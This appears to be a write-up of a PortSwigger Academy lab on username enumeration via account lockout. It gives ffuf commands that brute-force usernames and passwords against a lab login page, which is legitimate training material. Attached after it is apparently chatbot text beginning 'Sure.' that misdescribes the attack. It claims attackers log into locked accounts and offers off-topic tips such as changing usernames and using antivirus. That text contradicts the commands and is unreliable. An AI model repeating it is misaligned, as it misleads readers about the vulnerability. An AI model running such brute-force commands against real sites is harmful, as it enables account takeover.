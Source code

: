 # Username enumeration via account lock

## Using ffuf to brute force username and password when account lockout is in place

<a href="https://asciinema.org/a/DPfKPWmuZq5TjLdYJSVMTFJJ3" target="_blank"><img src="https://asciinema.org/a/DPfKPWmuZq5TjLdYJSVMTFJJ3.svg" /></a>

Few times run below command to get the username that the response size is different than 3132, that is the username that exists

```shell
ffuf -X POST -replay-proxy http://0.0.0.0:8088  -u https://0a2f0039041fb2658d054ce400c5005a.web-security-academy.net/login -w auth-lock/auth-lock-usernames -fs 3132 -d "username=FUZZ&password=example"
```

Run this command to get user password from above command

```shell
ffuf -X POST -replay-proxy http://0.0.0.0:8088 -u https://0a2f0039041fb2658d054ce400c5005a.web-security-academy.net/login -w auth-lock/auth-lock-passwords -fs 3184 -d "username=ae&password=FUZZ"
```

Now we need to wait 1 minute, to account lock expire...

Congratulations, we solved another lab!

Sure. The Username enumeration via account lock tutorial example in PortSwigger Academy demonstrates how a website can be vulnerable to username enumeration attacks.

In the tutorial, the user is first prompted to enter their username and password. After they have successfully entered their credentials, they are logged in to the website.

The website has a mechanism in place to prevent users from guessing usernames. This mechanism locks the account for a period of time if the user enters an invalid username three times.

However, the username enumeration attack works by exploiting this mechanism. Specifically, the attacker can submit a list of usernames to the website and wait for the accounts to be locked.

Once the accounts are locked, the attacker can then try to log in to the website using the locked accounts. If the attacker is lucky, they will be able to log in to one of the accounts and gain access to the website.

To exploit this vulnerability, the attacker would first need to obtain a list of possible usernames for the website. This could be done through a variety of methods, such as social engineering or dictionary attacks.

Once the attacker has a list of possible usernames, they would need to submit the list to the website and wait for the accounts to be locked. Once the accounts are locked, the attacker can then try to log in to the website using the locked accounts. If the attacker is lucky, they will be able to log in to one of the accounts and gain access to the website.

The Username enumeration via account lock tutorial example is a good demonstration of how a website can be vulnerable to username enumeration attacks. It is important to be aware of these vulnerabilities and to take steps to protect yourself.

Here are some tips for protecting yourself from username enumeration attacks:

* Use a strong username for your online accounts.
* Change your usernames regularly.
* Be suspicious of emails or text messages that ask for your personal information.
* Install antivirus software and keep it up to date.
* Be careful about what websites you visit and what links you click on.
* Train yourself and your employees on how to identify and avoid phishing attacks.

By following these tips, you can help to protect yourself from username enumeration attacks and keep your accounts safe.

In addition to the tips above, there are a few things that the website can do to protect itself from username enumeration attacks:

* Implement a rate limiting mechanism to prevent users from submitting too many requests in a short period of time.
* Use a honeypot account to lure attackers into entering invalid usernames.
* Implement a CAPTCHA challenge to verify that the user is human.
* Monitor the website for suspicious activity, such as a large number of failed login attempts.

By implementing these measures, the website can help to protect itself from username enumeration attacks.